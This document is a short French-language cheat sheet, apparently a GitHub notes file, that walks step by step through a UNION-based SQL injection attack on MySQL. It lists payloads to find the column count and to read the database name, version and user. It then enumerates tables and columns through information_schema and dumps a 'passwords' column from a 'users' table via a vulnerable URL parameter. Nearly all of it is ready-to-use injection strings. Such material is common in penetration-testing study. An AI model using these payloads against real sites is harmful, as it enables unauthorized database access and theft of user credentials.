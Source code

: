 ## Cas d'une SQL injection UNION attacks sur MySQL
*L'objectif est de résumer les étapes d'une SQLi UNION en simplifiant le plus possible*

### 1. Nombre de colonne
' ORDER by 1
' UNION SELECT NULL,NULL,NULL
' UNION SELECT 1,2,3

### 2. Nom de la base de données
' UNION SELECT 1,2,database()

### 3. Version de la base de données
' UNION SELECT 1,2,version()

### 4. User de la base de données
' UNION SELECT 1,2,user()

### 5. Nom des tables
https://exemple.com/test.php?param=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()

### 6. Nom des colonnes dans une table (ex : table "users")
https://exemple.com/test.php?param=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'

### 7. On selectionne les colonnes qui nous intéressent (ex: colonne "passwords")
https://exemple.com/test.php?param=1' union select 1,2,group_concat(passwords) from users

### En résumé : 
1. Nombre de colonne
2. On teste quelles colonnes nous retournent des chaînes de caratères (string datas)
3. Nom, version et user de la base de données
4. Nom des tables
5. Noms des colonnes
6. ontenue des colonnes
